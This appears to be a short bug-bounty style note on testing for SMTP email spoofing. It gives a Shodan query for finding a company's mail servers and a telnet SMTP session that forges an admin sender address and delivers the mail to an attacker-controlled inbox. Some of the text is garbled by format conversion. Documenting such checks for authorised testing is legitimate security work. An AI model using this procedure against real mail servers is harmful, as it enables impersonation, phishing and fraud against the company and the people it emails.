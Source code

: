 <mark style="background: #FF5582A6;">Step 1:-</mark>
-> search in shodan with including virtual host `(services.tls.certificates.leaf_data.names: anywebsite.com) and services.service_name=`SMTP`` , then `` run the command in terminal `telnet <ip> <smtp port>` 

```
EHLO anywebsite.com  
MAIL FROM: <admin[@](mailto:chris@contoso.com)anywebsite[.com](mailto:chris@contoso.com)>  
RCPT TO: <attackers controlled email id>  
DATA  
354 Start mail input; end with <CRLF>.<CRLF>  
Subject: test`
```
See if the attacker is getting mail from admin@anywebsite.com 
Impact -> An attacker can send legitimate email on behalf of someone in the company to anyone.It can lead to fraud.
